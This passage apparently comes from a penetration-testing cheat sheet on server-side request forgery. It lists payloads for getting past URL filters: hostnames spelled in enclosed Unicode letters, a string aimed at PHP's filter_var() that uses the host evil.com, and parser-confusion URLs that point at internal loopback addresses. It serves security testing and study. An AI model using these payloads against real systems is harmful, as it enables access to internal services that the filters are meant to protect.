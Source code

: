 ### Bypass using enclosed alphanumerics

```
http://ⓔⓧⓐⓜⓟⓛⓔ.ⓒⓞⓜ = example.com

List:
① ② ③ ④ ⑤ ⑥ ⑦ ⑧ ⑨ ⑩ ⑪ ⑫ ⑬ ⑭ ⑮ ⑯ ⑰ ⑱ ⑲ ⑳ ⑴ ⑵ ⑶ ⑷ ⑸ ⑹ ⑺ ⑻ ⑼ ⑽ ⑾ ⑿ ⒀ ⒁ ⒂ ⒃ ⒄ ⒅ ⒆ ⒇ ⒈ ⒉ ⒊ ⒋ ⒌ ⒍ ⒎ ⒏ ⒐ ⒑ ⒒ ⒓ ⒔ ⒕ ⒖ ⒗ ⒘ ⒙ ⒚ ⒛ ⒜ ⒝ ⒞ ⒟ ⒠ ⒡ ⒢ ⒣ ⒤ ⒥ ⒦ ⒧ ⒨ ⒩ ⒪ ⒫ ⒬ ⒭ ⒮ ⒯ ⒰ ⒱ ⒲ ⒳ ⒴ ⒵ Ⓐ Ⓑ Ⓒ Ⓓ Ⓔ Ⓕ Ⓖ Ⓗ Ⓘ Ⓙ Ⓚ Ⓛ Ⓜ Ⓝ Ⓞ Ⓟ Ⓠ Ⓡ Ⓢ Ⓣ Ⓤ Ⓥ Ⓦ Ⓧ Ⓨ Ⓩ ⓐ ⓑ ⓒ ⓓ ⓔ ⓕ ⓖ ⓗ ⓘ ⓙ ⓚ ⓛ ⓜ ⓝ ⓞ ⓟ ⓠ ⓡ ⓢ ⓣ ⓤ ⓥ ⓦ ⓧ ⓨ ⓩ ⓪ ⓫ ⓬ ⓭ ⓮ ⓯ ⓰ ⓱ ⓲ ⓳ ⓴ ⓵ ⓶ ⓷ ⓸ ⓹ ⓺ ⓻ ⓼ ⓽ ⓾ ⓿
```

### Bypass filter\_var() php function

```
0://evil.com:80;http://google.com:80/
```

### [Bypass against a weak parser](https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf)

```
http://127.1.1.1:80\@127.2.2.2:80/
http://127.1.1.1:80\@@127.2.2.2:80/
http://127.1.1.1:80:\@@127.2.2.2:80/
http://127.1.1.1:80#\@127.2.2.2:80/
```

![](<../../.gitbook/assets/image (23).png>)
